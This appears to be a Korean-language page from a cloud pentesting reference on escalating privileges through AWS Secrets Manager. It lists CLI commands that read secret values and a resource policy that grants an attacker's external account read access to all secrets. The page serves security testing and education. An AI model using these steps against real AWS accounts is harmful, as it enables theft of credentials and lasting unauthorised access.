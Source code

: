 # AWS - Secrets Manager Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Secrets Manager

secrets manager에 대한 자세한 정보는 다음을 확인하세요:

{{#ref}}
../../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### `secretsmanager:GetSecretValue`

이 permission을 가진 attacker는 AWS **Secretsmanager**에 저장된 **secret 내부의 저장된 값**을 얻을 수 있습니다.
```bash
aws secretsmanager get-secret-value --secret-id <secret_name> # Get value
```
**잠재적 영향:** AWS secrets manager 서비스 내부의 고도로 민감한 데이터에 접근할 수 있음.

> [!WARNING]
> 참고: `secretsmanager:BatchGetSecretValue` 권한이 있더라도 공격자는 민감한 비밀을 가져오기 위해 `secretsmanager:GetSecretValue` 권한도 필요합니다.

### `secretsmanager:GetResourcePolicy`, `secretsmanager:PutResourcePolicy`, (`secretsmanager:ListSecrets`)

이전 권한으로는 **give access to other principals/accounts (even external)** 하여 **secret**에 접근할 수 있도록 만들 수 있습니다. KMS key로 암호화된 **secret**을 **read secrets encrypted**하려면 사용자가 **access over the KMS key**도 가지고 있어야 합니다 (more info in the [KMS Enum page](../../aws-services/aws-kms-enum.md)).
```bash
aws secretsmanager list-secrets
aws secretsmanager get-resource-policy --secret-id <secret_name>
aws secretsmanager put-resource-policy --secret-id <secret_name> --resource-policy file:///tmp/policy.json
```
policy.json:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<attackers_account>:root"
},
"Action": "secretsmanager:GetSecretValue",
"Resource": "*"
}
]
}
```
{{#include ../../../../banners/hacktricks-training.md}}
